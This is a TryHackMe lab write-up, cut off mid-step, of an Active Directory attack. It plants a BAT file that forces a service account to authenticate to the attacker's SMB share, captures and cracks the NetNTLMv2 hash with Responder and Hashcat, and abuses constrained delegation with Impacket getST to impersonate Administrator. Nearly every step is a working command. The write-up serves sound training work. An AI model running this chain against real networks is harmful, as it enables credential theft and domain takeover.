# TryHackMe Write-Up — S4U2Self & Constrained Delegation

> **Lab type:** Active Directory / Kerberos / Lateral Movement  
> **AttackBox:** `10.49.114.223`  
> **Target / Domain Controller:** `10.49.135.182`  


---

# 1. Overview

The objective of this task was to gain access to the **Administrator's Desktop** on the Domain Controller and retrieve the flag.

The attack consisted of several stages:

```
Nmap reconnaissance
        ↓
SMB enumeration
        ↓
Find writable IT-Shared
        ↓
Coerce svc.scanner to authenticate to AttackBox
        ↓
Capture NetNTLMv2 hash
        ↓
Crack password with Hashcat
        ↓
Authenticate as svc.scanner
        ↓
Enumerate Active Directory
        ↓
Discover constrained delegation
        ↓
S4U2Self + S4U2Proxy
        ↓
Impersonate Administrator
        ↓
Obtain CIFS Kerberos ticket
        ↓
SMBEXEC using Kerberos
        ↓
NT AUTHORITY\SYSTEM
        ↓
Read Administrator Desktop flag
```

The key vulnerability was **constrained delegation with protocol transition** configured for `svc.scanner`.

---

# 2. Lab Information

|Item|Value|
|---|---|
|AttackBox|`10.49.114.223`|
|Target/DC|`10.49.135.182`|


---

# 3. Reconnaissance

## Step 1 — Nmap Scan

I started with a service/version scan against the target.

```
nmap -sC -sV -T4 10.49.135.182
```

### Options

|Option|Purpose|
|---|---|
|`-sC`|Run Nmap's default NSE scripts|
|`-sV`|Detect service versions|
|`-T4`|Faster timing template|
|`10.49.135.182`|Target IP|

The scan identified several important Active Directory services:

```
53    DNS
88    Kerberos
135   MSRPC
139   NetBIOS
389   LDAP
445   SMB
464   Kerberos password change
593   RPC over HTTP
636   LDAPS
3268  Global Catalog LDAP
3269  Global Catalog LDAPS
3389  RDP
```

The presence of:

```
88/tcp   Kerberos
389/tcp  LDAP
445/tcp  SMB
3268/tcp Global Catalog
```

strongly indicated that this was a Domain Controller.




---

# 4. SMB Enumeration

Since port `445` was open, I started by checking SMB shares.

## Step 2 — List SMB Shares Anonymously

```
smbclient -L //10.49.135.182 -N
```

The `-N` option tells `smbclient` not to request a password.

Several shares were available, including:

```
ADMIN$
C$
IPC$
IT-Shared
NETLOGON
SYSVOL
```

The interesting share was:

```
IT-Shared
```



---

# 5. Access IT-Shared

## Step 3 — Connect to the Share

```
smbclient //10.49.135.182/IT-Shared -N
```

Inside the SMB session I enumerated the files:

```
ls
```

The share contained files related to IT operations.

One of the important discoveries was information about automated services.

The onboarding information revealed:

```
File Scanner (svc.scanner)
    Runs every 2 minutes.
    Enumerates IT-Shared for new files to process.

Database Backup (svc.mssql)
    Handles nightly MSSQL backups.
    Member of Backup Operators.
```

The important account here was:

```
svc.scanner
```

The fact that this service automatically processed files placed in `IT-Shared` was particularly interesting.





---

# 6. Prepare the Authentication Payload

The goal was to make the `svc.scanner` service connect back to the AttackBox.

My AttackBox IP was:

```
10.49.114.223
```

I created a BAT file:

```
nano test.bat
```

The contents were:

```
@echo off
dir \\10.49.114.223\share > nul 2>&1
```

### What this does

The important portion is:

```
\\10.49.114.223\share
```

This attempts to access an SMB share on my AttackBox.

When the target processes the file, Windows attempts to authenticate to the remote SMB server.

The resulting authentication can expose the account's **NetNTLMv2 challenge-response**.


---

# 7. Upload the Payload

From the anonymous SMB connection:

```
smbclient //10.49.135.182/IT-Shared -N
```

I uploaded the BAT file:

```
put test.bat
```

Then:

```
ls
```

to verify that the file was present.

The important chain was:

```
test.bat
    ↓
IT-Shared
    ↓
svc.scanner processes file
    ↓
\\10.49.114.223\share
    ↓
AttackBox SMB server
    ↓
NTLM authentication
```


---

# 8. Capture the NTLMv2 Authentication with Responder

Before starting the capture, I checked the AttackBox network interface and IP address.

## Step 1 — Check the Network Interface

```
ip addr
```

I identified the AttackBox interface:

```
ens5
```

The AttackBox IP for this lab was:

```
10.49.114.223
```

This is the IP that the target would connect back to.

---

## Step 2 — Start Responder

I started Responder on the `ens5` interface:

```
responder -I ens5 -v
```

### Options

|Option|Purpose|
|---|---|
|`-I ens5`|Listen on the `ens5` network interface|
|`-v`|Enable verbose output|

Responder starts several network authentication services and waits for systems to authenticate to the AttackBox.

At this point, I left Responder running while the `svc.scanner` service processed the file that had been uploaded to `IT-Shared`.


---

## Step 3 — Initial Port Conflict

Initially, the existing Samba service was using TCP port `445`.

Because SMB normally uses:

```
TCP/445
```

Responder could not properly bind to the required SMB listener while `smbd` was already using the port.

I checked the process listening on port 445 with:

```
ss -ltnp | grep ':445'
```

I also used:

```
sudo lsof -iTCP:445 -sTCP:LISTEN
```

This showed that `smbd` was listening on port 445.

---

## Step 4 — Stop the Existing SMB Service

I stopped the existing Samba service so Responder could use the SMB listener.

```
sudo systemctl stop smbd
```

If needed, I could verify that port 445 was no longer occupied:

```
ss -ltnp | grep ':445'
```

After stopping `smbd`, I restarted Responder:

```
responder -I ens5 -v
```

This time Responder was able to listen for the incoming SMB authentication.

---

## Step 5 — Receive the Authentication

After the `test.bat` file was processed by the target's automated service, the Domain Controller connected back to the AttackBox.

Responder captured the authentication from:

```
10.49.135.182
```

The important part of the captured output identified the account:

```
CTF\svc.scanner
```

and provided its **NetNTLMv2 challenge-response hash**.

The important attack flow was therefore:

```
DC01
10.49.135.182
      │
      │ processes test.bat
      ▼
\\10.49.114.223\share
      │
      ▼
Responder
      │
      ▼
NTLMv2 authentication
      │
      ▼
CTF\svc.scanner
```

This gave me the NetNTLMv2 hash for `svc.scanner`.


---

# 9. Save and Crack the Captured Hash

After Responder captured the hash, I saved the hash into:

```
nano hash.txt
```

I then used Hashcat with mode `5600`:

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force
```

`5600` is the Hashcat mode for:

```
NetNTLMv2
```

The password recovered was:

```
{REDACTED}
```

So I now had:

```
Username: svc.scanner
Password: {REDACTED}
```


---

# 10. Crack the NetNTLMv2 Hash

I used Hashcat mode `5600`.

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force
```

### Important option

```
-m 5600
```

means:

```
NetNTLMv2
```

The password recovered from the hash was:

```
{REDACTED}
```

Therefore:

```
Username: svc.scanner
Password: {REDACTED}
```

---

# 11. Verify the Credentials

Before continuing, I verified that the credentials worked against SMB.

```
nxc smb 10.49.135.182 -d ctf.local -u 'svc.scanner' -p '{REDACTED}'
```

The successful result confirmed:

```
ctf.local\svc.scanner:{REDACTED}
```

At this point I had valid domain credentials.


---

# 12. Configure `/etc/hosts`

Kerberos depends heavily on correct hostname resolution.

I edited:

```
nano /etc/hosts
```

and added:

```
10.49.135.182 DC01.ctf.local ctf.local DC01
```

I then verified resolution:

```
getent hosts DC01.ctf.local
```

Expected:

```
10.49.135.182 DC01.ctf.local DC01
```

I also verified connectivity to Kerberos and LDAP:

```
nc -vz DC01.ctf.local 88
```

```
nc -vz DC01.ctf.local 389
```

Both ports were reachable.



---

# 13. Enumerate SMB Shares as svc.scanner

Now that I had valid credentials, I enumerated the shares again.

```
nxc smb 10.49.135.182 -d ctf.local -u 'svc.scanner' -p '{REDACTED}' --shares

```

I could also use:

```
smbclient -L //10.49.135.182 -U 'ctf.local/svc.scanner%{REDACTED}'

```

This confirmed the privileges available to the service account.


---

# 14. Check WinRM

I checked whether the compromised account had WinRM access:

```
nxc winrm 10.49.135.182 -d ctf.local -u 'svc.scanner' -p '{REDACTED}'
```

This is useful because valid domain credentials do not automatically mean that an account can remotely access a Windows host through WinRM.


---

# 15. Enumerate Domain Users

Next I enumerated domain users:

```
nxc smb 10.49.135.182 -d ctf.local -u 'svc.scanner' -p '{REDACTED}' --users

```

This revealed accounts including:

```
Administrator
Guest
krbtgt
svc.scanner
svc.mssql
helpdesk.bob
it.admin
```

The presence of service accounts such as:

```
svc.scanner
svc.mssql
```

was particularly relevant to further AD enumeration.


---

# 16. Enumerate Groups

I also checked group information:

```
nxc smb 10.49.135.182 \
-d ctf.local \
-u 'svc.scanner' \
-p '{REDACTED}' \
--groups
```

Depending on the NetExec version, LDAP can also be used:

```
nxc ldap 10.49.135.182 \
-d ctf.local \
-u 'svc.scanner' \
-p '{REDACTED}' \
--groups
```


---

# 17. Check Password Policy

I checked the domain password policy:

```
nxc smb 10.49.135.182 -d ctf.local -u 'svc.scanner' -p '{REDACTED}' --pass-pol
```

This provides useful information such as:

- Minimum password length
- Password complexity
- Password history
- Password expiration
- Lockout policy


---

# 18. RID Enumeration

I also performed RID enumeration:

```
nxc smb 10.49.135.182 -d ctf.local -u 'svc.scanner' -p '{REDACTED}' --rid-brute
```

This can reveal domain users and groups by enumerating their Relative Identifiers.

For example:

```
500 → Administrator
501 → Guest
502 → krbtgt
```


---

# 19. BloodHound Enumeration

I attempted to collect BloodHound data:

```
bloodhound-python \
-u svc.scanner \
-p '{REDACTED}' \
-d ctf.local \
-ns 10.49.135.182 \
-dc DC01.ctf.local \
-c all
```

I also tried:

```
bloodhound-python \
-u svc.scanner \
-p '{REDACTED}' \
-d ctf.local \
-ns 10.49.135.182 \
-c All \
--zip
```

Initially BloodHound had DNS resolution problems because:

```
/etc/resolv.conf
```

contained:

```
nameserver 127.0.0.1
```

However, the target's DNS server itself could resolve the DC:

```
nslookup DC01.ctf.local 10.49.135.182
```

which returned:

```
Name: DC01.ctf.local
Address: 10.49.135.182
```

Adding the DC to `/etc/hosts` fixed normal system hostname resolution.

However, BloodHound still encountered an LDAP connection issue in this environment, so I moved to direct LDAP/delegation enumeration instead.

---

# 20. Find Delegation

This was the turning point.

I used Impacket's `findDelegation`:

```
impacket.findDelegation \
ctf.local/svc.scanner:'{REDACTED}' \
-dc-ip 10.49.135.182
```

The important result was:

```
AccountName  AccountType  DelegationType                      DelegationRightsTo
-----------  -----------  ----------------------------------  -------------------------
svc.scanner  Person       Constrained w/ Protocol Transition  cifs/DC01
svc.scanner  Person       Constrained w/ Protocol Transition  cifs/DC01.ctf.local
```

This showed:

```
svc.scanner
    ↓
Constrained Delegation
    ↓
Protocol Transition
    ↓
cifs/DC01.ctf.local
```

This was the vulnerability that allowed the next stage.

---

# 21. Confirm Delegation Through LDAP

I also directly queried the LDAP attributes:

```
ldapsearch -x \
-H ldap://DC01.ctf.local \
-D 'svc.scanner@ctf.local' \
-w '{REDACTED}' \
-b 'DC=ctf,DC=local' \
'(sAMAccountName=svc.scanner)' \
sAMAccountName \
servicePrincipalName \
msDS-AllowedToDelegateTo \
userAccountControl
```

The important output was:

```
dn: CN=svc.scanner,CN=Users,DC=ctf,DC=local

userAccountControl: 16843264

sAMAccountName: svc.scanner

servicePrincipalName: scanner/DC01
servicePrincipalName: scanner/DC01.ctf.local

msDS-AllowedToDelegateTo: cifs/DC01
msDS-AllowedToDelegateTo: cifs/DC01.ctf.local
```

The critical attribute was:

```
msDS-AllowedToDelegateTo
```

It showed that `svc.scanner` was allowed to delegate to:

```
cifs/DC01
cifs/DC01.ctf.local
```

---

# 22. Understanding the Delegation Vulnerability

The account wasn't simply an administrator.

Instead, it had a special Kerberos delegation configuration.

The important relationship was:

```
svc.scanner
     │
     │ allowed delegation
     ▼
CIFS service on DC01
```

Because **protocol transition** was enabled, the service account could use the Kerberos S4U extensions to request service tickets on behalf of another user.

In this attack, the other user was:

```
Administrator
```

The attack therefore became:

```
svc.scanner
      ↓
S4U2Self
      ↓
Administrator identity
      ↓
S4U2Proxy
      ↓
CIFS/DC01
      ↓
Administrator CIFS ticket
```

---

# 23. Request an Administrator Service Ticket

I used Impacket `getST.py`:

```
getST.py \
-spn cifs/DC01.ctf.local \
-impersonate Administrator \
-dc-ip 10.49.135.182 \
ctf.local/svc.scanner:'{REDACTED}'
```

The tool performed:

```
Getting TGT for user
        ↓
Impersonating Administrator
        ↓
Requesting S4U2Self
        ↓
Requesting S4U2Proxy
        ↓
Saving ticket
```

The resulting ticket was:

```
Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```


---

# 24. Understanding S4U2Self

The first Kerberos operation was:

```
S4U2Self
```

Conceptually:

```
svc.scanner
     │
     │ "Give me a ticket representing Administrator"
     ▼
Administrator service ticket
```

The service account doesn't need Administrator's password for this.

The delegation configuration allows the service to request a ticket representing another identity.

---

# 25. Understanding S4U2Proxy

The second operation was:

```
S4U2Proxy
```

This uses the delegated identity to request access to a service that the account is allowed to delegate to.

In this case:

```
Administrator
      ↓
S4U2Proxy
      ↓
cifs/DC01.ctf.local
```

The resulting ticket can therefore be used to authenticate to the CIFS service as Administrator.

---

# 26. Set the Kerberos Credential Cache

I exported the generated `.ccache` file:

```
